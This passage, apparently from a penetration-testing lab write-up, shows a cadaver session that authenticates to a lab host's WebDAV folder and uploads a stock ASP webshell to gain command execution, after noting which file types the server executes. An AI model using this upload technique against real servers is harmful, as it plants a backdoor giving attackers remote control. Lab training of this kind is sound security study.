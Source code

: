 All files with different extensions uploaded successfully but only files with `asp`, `html` and `txt` extensions were executed successfully, so if we need to perform command execution or get reverse shell we need `asp` shell

<br />

**Upload asp webshell using `cadaver`**

```bash
root@attackdefense:~# cadaver http://10.4.22.42/webdav/
Authentication required for 10.4.22.42 on server `10.4.22.42':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_26C0J8                      0  Jan 13 20:09
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
        
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

```

<img src="./assets/2.png"  />

<br />

<br />
